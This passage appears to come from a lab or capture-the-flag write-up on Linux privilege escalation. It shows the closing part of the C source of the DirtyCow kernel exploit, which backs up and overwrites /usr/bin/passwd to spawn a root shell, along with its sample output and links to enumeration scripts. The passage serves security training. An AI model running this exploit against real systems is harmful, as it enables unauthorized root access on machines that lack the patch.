 
  printf("Popping root shell.\n");
  printf("Don't forget to restore /tmp/bak\n");

  system(suid_binary);
}

int main(int argc,char *argv[]) {
  char *backup;

  printf("DirtyCow root privilege escalation\n");
  printf("Backing up %s.. to /tmp/bak\n", suid_binary);

  asprintf(&backup, "cp %s /tmp/bak", suid_binary);
  system(backup);

  f = open(suid_binary,O_RDONLY);
  fstat(f,&st);

  printf("Size of binary: %d\n", st.st_size);

  char payload[st.st_size];
  memset(payload, 0x90, st.st_size);
  memcpy(payload, sc, sc_len+1);

  map = mmap(NULL,st.st_size,PROT_READ,MAP_PRIVATE,f,0);

  printf("Racing, this may take a while..\n");

  pthread_create(&pth1, NULL, &madviseThread, suid_binary);
  pthread_create(&pth2, NULL, &procselfmemThread, payload);
  pthread_create(&pth3, NULL, &waitForWrite, NULL);

  pthread_join(pth3, NULL);

  return 0;
}{% endraw %}{% endcapture %} {% include code.html code=code %}

The `dirty cow` exploit creates a binary, which back up `/usr/bin/passwd` file and creates a `reverse shell` payload in the same name. A `privilege shell` will be spawned when the command `/usr/bin/passwd` is executed.

The output of command `./c0w` is similar to below
{% capture code %}{% raw %}DirtyCow root privilege escalation
Backing up /usr/bin/passwd to /tmp/bak
mmap 249f7000

madvise 0

ptrace 0{% endraw %}{% endcapture %} {% include code.html code=code %}


## Task 21 - Privilege Escalation Scripts

Use these links as references.
- [LinEnum reference](https://github.com/rebootuser/LinEnum){:target="_blank"}
- [Privilege Escalation Suite](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite){:target="_blank"}
- [Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration){:target="_blank"}

